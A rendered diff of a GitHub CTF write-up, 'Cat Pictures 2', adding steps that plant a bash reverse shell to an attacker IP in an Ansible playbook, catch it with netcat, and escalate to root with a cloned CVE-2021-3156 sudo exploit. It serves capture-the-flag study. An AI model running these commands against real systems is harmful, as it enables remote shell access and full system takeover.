

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: Cat Pictures 2.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Cat Pictures 2.md
+++ b/Cat Pictures 2.md
@@ -158,3 +158,81 @@ ansible runner (olivetin): port 1337
 ```
 
 ![image](https://github.com/user-attachments/assets/9260e44c-9a78-4e3b-8384-437b0a959912)
+
+
+
+```
+---
+- name: Test
+  hosts: all                                  # Define all the hosts
+  remote_user: bismuth
+  # Defining the Ansible task
+  tasks:
+    - name: get the username running the deploy
+      become: false
+      command: whoami
+      register: username_on_the_host
+      changed_when: false
+
+    - debug: var=username_on_the_host
+
+    - name: Test
+      shell: bash -c "bash -i >& /dev/tcp/10.6.49.189/5555 0>&1"
+```
+
+![image](https://github.com/user-attachments/assets/c22c4b7c-8dbd-44fe-bce2-d5871e43f2a3)
+
+now listen on 5555:
+
+```
+nc -lvpn 5555
+```
+
+open ansibel and click ``Run ansible playbook``
+
+![image](https://github.com/user-attachments/assets/264eabb6-57eb-4922-a051-baec2f873c5a)
+
+now for ``prevesc``
+
+![image](https://github.com/user-attachments/assets/680b92ef-8d54-46fd-91ff-c07d958e17a0)
+
+notice that ``sudo version`` is old
+
+![image](https://github.com/user-attachments/assets/66fa7446-f996-43ca-956e-9e5f69daae6f)
+
+![image](https://github.com/user-attachments/assets/8dce471e-60e4-45a5-95be-b8dfecb3b0c1)
+
+```
+git clone https://github.com/blasty/CVE-2021-3156.git
+cd CVE-2021-3156
+```
+
+```
+make
+```
+
+```
+./sudo-hax-me-a-sandwich
+```
+
+``output``
+
+```
+bismuth@catpictures-ii:~/exploit$ ./sudo-hax-me-a-sandwich
+./sudo-hax-me-a-sandwich
+
+** CVE-2021-3156 PoC by blasty <peter@haxx.in>
+
+  usage: ./sudo-hax-me-a-sandwich <target>
+
+  available targets:
+  ------------------------------------------------------------
+    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
+    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
+    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
+  ------------------------------------------------------------
+
+  manual mode:
+    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
+```
+
````
Also changed, not shown: other parts of Cat Pictures 2.md (+35 -0 lines).
